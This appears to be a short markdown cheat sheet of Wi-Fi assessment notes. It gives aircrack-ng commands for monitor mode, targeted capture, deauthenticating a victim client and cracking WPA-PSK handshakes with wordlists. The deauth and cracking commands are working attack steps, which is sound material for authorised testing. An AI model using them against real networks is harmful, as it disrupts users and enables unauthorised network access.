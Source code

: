 # Wi-Fi Collection and Attack Techniques

This are techniques that I have found to work during WiFi assessments. This isn't an "end all, be all" list.</br>

* Identification/Discovery
* Collection
* Attack

# Hardware:
- key is having an Atheros chipset in the wireless adapter
- TP-Link TL-WN722N - has to be earlier than version 2
- Alfa AWUS051NH

# Configuration
* System setup
* Might need to kill Network Manager
```
/etc/init.d/network-manager status
```
```
/etc/init.d/network-manager stop
```
* Ensure hardware is connected
```
lsusb
```
* Check wireless status of network adapter
```
iwconfig
```
* If need to bring up the interface
```
ifconfig wlan0 up
```
* This is an optional step: can stay in Managed mode and scan to do light discovery
```
iwlist wlan0 scanning
```

# Monitor Mode
* This sets wlan0 into Monitor mode. This sets a new interface, typically, mon0 or a variation of ie. wlanmon0
```
airmon-ng start wlan0
```
* Watch aircrack-ng's output of errors. Might need to run:
```
airmon-ng check kill
```
* Monitor for traffic on Monitor interface (i.e. mon0)
```
airodump-ng mon0 
```
* Stopping Monitor Mode when needed
```
airmon-ng stop wlan0mon
```

# Capture traffic
* Interface will your monitor interface that was set above i.e. mon0
```
airodump-ng -c <Channel> --bssid <AP_MAC> -w <File_Prefix> <interface>
```

# WPA-PSK Attack
* Attacking WPA-PSK - Goal: acquire PSK (pre-shared key)
- Need to identify:
	* Name of the wireless network (ESSID)
	* MAC address of the AP (BSSID)
	* Channel that the AP
	* Victim MAC
	* need to capture 4 way handshake
	* Then crack - see below

# Deauth Attack
* In one terminal collect
``` 
airodump-ng -c <CHANNEL> --bssid  <AP_MAC> -w <FILE_PREFIX> <INTERFACE>
```
* In another termainl deauth
```
aireplay-ng --deauth 25 -a <AP_MAC> -c <VICTIM_MAC> <INTERFACE>
```

# Cracking
* Crack with John the Ripper
```
/usr/sbin/john --rules -w=/usr/share/wordlists/rockyou.txt --stdout | aircrack-ng -w - -e <essid> capture.cap
```
* Brute-Force to get the WPA Key (assumption is the packet capture contains the 4 way handshake)
```
aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa_capture.pcap
```
* I've heard hashcat is more affective but I've have not tried this method.

# Wireshark Tips
* Don't forget to add key information to Wireshark
* From Menu options: Edit->Preferences->IEEE 802.11
